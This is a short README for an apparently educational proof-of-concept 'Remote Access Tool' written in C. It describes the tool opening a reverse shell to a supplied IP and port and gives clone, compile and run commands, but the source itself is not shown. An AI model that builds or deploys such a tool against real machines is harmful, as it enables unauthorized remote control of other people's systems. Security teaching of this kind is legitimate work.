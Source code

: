 # RAT
This is a proof of concept Remote Access Tool. 
For educational purposes ONLY!

## Description
> There should be a listner waiting on the client side for this tool to work.

This is a very simple tool, that can create a reverse shell connection to a server when provided with **PORT** and **IP** address of a client to connect back to.

## Installation
> `git` and `gcc` should be installed beforehand. 
```
git clone https://github.com/vladisl0th/RAT.git
cd RAT
gcc rat.c -o rat
```

## Usage
```
./rat [IP] [PORT]
```
